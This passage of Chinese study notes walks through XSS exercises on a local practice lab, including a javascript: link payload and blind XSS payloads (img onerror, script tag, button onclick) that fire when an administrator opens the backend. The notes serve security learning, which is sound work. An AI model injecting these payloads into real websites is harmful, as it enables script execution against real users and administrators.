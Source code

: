 ![image-20250112192130940](../../_media/image-20250112192130940.png)

那还是同上

```
javascript:alert(1)
```

点击两次链接就会弹窗了



### xss之盲打

需要配合使用，弹的是管理员那边的

还是随意提交xss代码

```
<img src=1 onerror=alert(/xss/)>
<script>alert(1)</script>
<button onclick=alert(1) >xss</button>
```



然后登录后台

```
http://127.0.0.1/vul/xss/xssblind/admin_login.php
```

然后就会有弹窗了！

![image-20250112192809109](../../_media/image-20250112192809109.png)
